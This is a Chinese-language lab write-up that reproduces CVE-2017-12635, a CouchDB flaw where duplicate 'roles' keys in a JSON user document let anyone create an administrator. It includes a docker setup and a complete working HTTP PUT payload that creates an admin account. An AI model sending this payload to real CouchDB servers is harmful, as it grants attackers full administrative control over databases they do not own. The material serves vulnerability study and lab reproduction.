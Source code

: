 （CVE-2017-12635）Couchdb 垂直权限绕过漏洞
==========================================

一、漏洞简介
------------

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

二、漏洞影响
------------

小于 1.7.0 以及 小于 2.1.1

三、复现过程
------------

### 环境搭建

    docker-compose build
    docker-compose up -d

环境启动后，访问`http://www.0-sec.org:5984/_utils/`即可看到一个web页面，说明Couchdb已成功启动。但我们不知道密码，无法登陆。

### 漏洞复现

首先，发送如下数据包：

    PUT /_users/org.couchdb.user:vulhub HTTP/1.1
    Host: www.0-sec.org:5984
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 90

    {
      "type": "user",
      "name": "vulhub",
      "roles": ["_admin"],
      "password": "vulhub"
    }

可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色：

![](./resource/(CVE-2017-12635)Couchdb垂直权限绕过漏洞/media/rId26.png)

发送包含两个roles的数据包，即可绕过限制：

    PUT /_users/org.couchdb.user:vulhub HTTP/1.1
    Host: www.0-sec.org:5984
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 108

    {
      "type": "user",
      "name": "vulhub",
      "roles": ["_admin"],
      "roles": [],
      "password": "vulhub"
    }

成功创建管理员，账户密码均为`vulhub`：

![](./resource/(CVE-2017-12635)Couchdb垂直权限绕过漏洞/media/rId27.png)

再次访问`http://www.0-sec.org:5984/_utils/`，输入账户密码`vulhub`，可以成功登录：

![](./resource/(CVE-2017-12635)Couchdb垂直权限绕过漏洞/media/rId28.png)

参考链接
--------

> https://vulhub.org/\#/environments/couchdb/CVE-2017-12635/
